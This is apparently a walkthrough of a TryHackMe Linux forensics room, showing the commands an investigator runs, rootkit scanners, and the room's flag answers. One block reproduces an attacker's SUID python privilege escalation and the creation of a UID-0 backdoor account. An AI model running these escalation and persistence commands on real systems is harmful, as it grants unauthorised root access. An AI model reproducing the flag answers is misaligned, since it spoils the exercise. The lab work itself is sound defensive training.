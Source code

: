 ### 20-Mar-24-Wed

[TryHackMe | Linux File System Analysis](https://tryhackme.com/r/room/linuxfilesystemanalysis)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/72975043-d51b-4bab-8e38-e58bd95ddd3a)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/84c8d904-493d-43a7-9d48-7d4e4225bdef)

```
ssh investigator@10.10.127.234
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/901a503c-b06d-4cca-9638-28062e72530f)

```
export PATH=/mnt/usb/bin:/mnt/usb/sbin
```

```
export LD_LIBRARY_PATH=/mnt/usb/lib:/mnt/usb/lib64
```

```
check-env
```

```
THM{5514ec4f1ce82f63867806d3cd95dbd8}
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/8ccc99dc-2f17-40fc-a30c-d3adabf821cf)

```
find / -user bob -type f 2>/dev/null | less
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/dec0bf4a-fa4d-4c7f-8a80-22bb6bcc57c5)

```
THM{0b1313afd2136ca0faafb2daa2b430f3}
```

```
find / -user bob -cmin 1 -type f 2>/dev/null
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/90861764-7c72-44ab-83c2-c58b3dd1ccc5)

```
exiftool /var/www/html/assets/reverse.elf
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/5242e8a4-6dad-462c-a4bc-f188005041a8)

```
application/octet-stream
```

```
stat /etc/hosts
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c932c5a8-8201-4f97-8153-983db356c55c)

```
cat /etc/group
```

```
cat /etc/passwd |grep x:0
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/5b5a3ba6-b412-48e3-9ce2-21ed817f10ea)

```
sudo cat /etc/sudoers
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/5aa67114-4cdc-46f2-b403-e97737e091bb)

```
sudo debsums -e -s
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/115162cc-4ffd-42a5-9019-b6b421c743f4)

```
whoami
groups
cd ~
ls -al
find / -perm -u=s -type f 2>/dev/null
/usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p", "-c", "cp /bin/bash /var/tmp/bash && chown root:root /var/tmp/bash && chmod +s /var/tmp/bash")'
ls -al /var/tmp
exit
useradd -o -u 0 b4ckd00r3d
exit
THM{f38279ab9c6af1215815e5f7bbad891b}
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ac62125e-d2dd-4391-8cea-6a4aff083532)

https://www.chkrootkit.org/

```
sudo chkrootkit
```

https://rkhunter.sourceforge.net/

```
rkhunter --update
```

```
sudo rkhunter -c -sk
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/e20debbf-b161-439f-9d1e-2302bceb297f)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/2fdcd629-a24a-4ab2-9bb2-608aa260b4aa)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/8aaf4d41-50b0-409a-8a45-50c54d779dcf)

